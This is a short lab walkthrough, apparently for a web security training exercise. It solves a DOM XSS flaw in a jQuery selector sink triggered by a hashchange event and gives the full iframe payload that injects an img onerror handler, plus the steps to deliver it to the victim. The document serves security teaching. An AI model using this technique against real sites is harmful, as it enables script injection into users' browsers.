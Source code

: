 # Lab: DOM XSS in jQuery selector sink using a hashchange event

Inspect the homepage and notice the jquery selector used for the hash scroll functionality.

Open the exploit server and store the XSS: `<iframe src="https://ac201fa31f99a724c0a03e0500f10075.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

Deliver the exploit to the victim to complete the lab.